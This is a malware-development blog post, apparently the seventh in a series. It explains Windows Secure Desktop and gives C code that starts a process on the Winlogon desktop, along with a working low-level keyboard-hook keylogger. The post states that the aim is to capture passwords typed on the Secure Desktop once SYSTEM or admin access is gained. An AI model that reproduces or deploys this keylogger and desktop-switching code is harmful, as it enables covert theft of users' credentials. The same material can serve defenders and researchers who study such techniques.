 ```yaml
---
title: Malware development part 7
layout: post
---
```


## Introduction
This is the sixth post of a series which regards the development of malicious software. In this series we will explore and try to implement multiple techniques used by malicious applications to execute code, hide from defenses and persist.  
Today we will talk about "Secure Desktop" on Windows and implement a keylogger.

## Secure Desktop
Secure Desktop is Windows feature that isolates system processes' graphical interface elements (like windows, prompts etc.). Basically it's a different desktop with access limited to system integrity processes.

If UAC is configured to use Secure Desktop (`ConsentPromptBehaviorUser = 1` and `ConsentPromptBehaviorAdmin = 1 || 2`), consent and credential prompts are presented on this desktop. This protects these prompts from malicious code running with user privileges. Also, `Winlogon` process, which handles user logon, run on this desktop.

Actually, `CreateProcess` API function allows to create a process assigned to any desktop (given the appropriate permissions are present) with `STARTUPINFO` parameter. It goes like this:

```c
STARTUPINFOA startupInfo;
ZeroMemory(&startupInfo, sizeof(startupInfo));
startupInfo.cb = sizeof(startupInfo);
PROCESS_INFORMATION processInfo;
ZeroMemory(&processInfo, sizeof(processInfo));

char desktop[] = "WINSTA0\\WINLOGON";
startupInfo.lpDesktop = desktop;

CreateProcessA(currentProcessPath, NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &startupInfo, &processInfo);
```

`WINSTA0\DEFAULT` is the default desktop and `WINSTA0\WINLOGON` is the Secure Desktop.

## Keylogger
A regular keylogger running with low user privileges won't be able to access the Secure Desktop. However if we can elevate to SYSTEM, we will be able to run the keylogger code in the `WINLOGON` desktop.

Typical keylogger use `SetWindowsHookEx` API with `WH_KEYBOARD_LL` hook type which monitors low-level keyboard input events. This function sets a callback function which is called on every event, in this case every keyboard input. Also, low-level hooks use message loop, which is a feature used by windows (GUI) applications to communicate.

From information passed to the hook function we can extract key status - what key was pressed or released. `WM_SYSKEYUP` and `WM_SYSKEYDOWN` messages are posted when a key is pressed while holding `Alt` key.

```c
LRESULT CALLBACK KeyboardHook(int nCode, WPARAM wParam, LPARAM lParam)
{
	KBDLLHOOKSTRUCT kbdStruct = *((KBDLLHOOKSTRUCT*)lParam);
	int msg = 1 + (kbdStruct.scanCode << 16) + (kbdStruct.flags << 24);
	char keyName[64];
	GetKeyNameTextA(msg, keyName, 64);
	char keyState[16];
	switch (wParam)
	{
	case WM_KEYUP:
	strncpy(keyState, "Key Up\0", 16);
		break;
	case WM_KEYDOWN:
	strncpy(keyState, "Key Down\0", 16);
		break;
	case WM_SYSKEYUP:
	strncpy(keyState, "Sys Key Up\0", 16);
		break;
	case WM_SYSKEYDOWN:
	strncpy(keyState, "Sys Key Down\0", 16);
		break;
	}
	printf("Captured: %s \t %s\n", keyName, keyState);
	return CallNextHookEx(0, nCode, wParam, lParam);;
}

int main()
{
	SetWindowsHookExA(WH_KEYBOARD_LL, KeyboardHook, NULL, 0);
	while (GetMessageA(0, 0, 0, 0));
}
```

And that's about it:

![winlogon_keylogger.png](../images/2021-01-29-Malware_development_part_7/winlogon_keylogger.png)

## Summary
With admin access on a Windows machine we can run a keyloggen on `Winlogon` desktop to capture passwords on the Secure Desktop.

Next time we'll take a closer look at C2 communication and bypassing malicious traffic detection.
